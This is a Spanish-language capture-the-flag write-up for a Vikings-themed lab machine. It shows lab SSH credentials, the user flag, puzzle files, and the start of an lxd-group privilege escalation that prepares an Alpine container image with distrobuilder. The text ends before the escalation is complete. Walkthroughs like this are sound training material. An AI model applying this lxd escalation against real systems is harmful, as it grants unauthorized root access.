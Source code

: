 ```
User = floki
Password = f@m0usboatbuilde7
```

```shell
ssh floki@<IP>
```

Y ya estariamos dentro, si nos vamos a la carpeta de `/ragnar` leeremos la flag del `user`...

> user.txt (flag1)

```
4bf930187d0149a9e4374a4e823f867d
```

Si leemos el fichero `readme.txt` veremos lo siguiente...

```
_______________________________________________________________________Floki-Creation____________________________________________________________________________________________________


I am the famous boat builder Floki. We raided Paris this with our all might yet we failed. We don't know where Ragnar is after the war. He is in so grief right now. I want to apologise to him.
Because it was I who was leading all the Vikings. I need to find him. He can be anywhere. 
I need to create this `boat` to find Ragnar
```

Y en el fichero `boat` pone...

```
#Printable chars are your ally.
#num = 29th prime-number.
collatz-conjecture(num)
```

Si vemos los grupos a los que estamos asociados...

```shell
id
```

Info:

```
uid=1000(floki) gid=1000(floki) groups=1000(floki),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd)
```

Vemos que estamos en el grupo `lxd` por lo que escalaremos por ahi haciendo lo siguiente...

Estos comandos que haremos ahora los haremos en nuestro `host`...

```shell
#Tenemos que hacerlo todo siendo root
sudo su

#Install requirements
sudo apt update
sudo apt install -y git golang-go debootstrap rsync gpg squashfs-tools

#Clone repo
git clone https://github.com/lxc/distrobuilder

#Make distrobuilder
cd distrobuilder
make

#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
```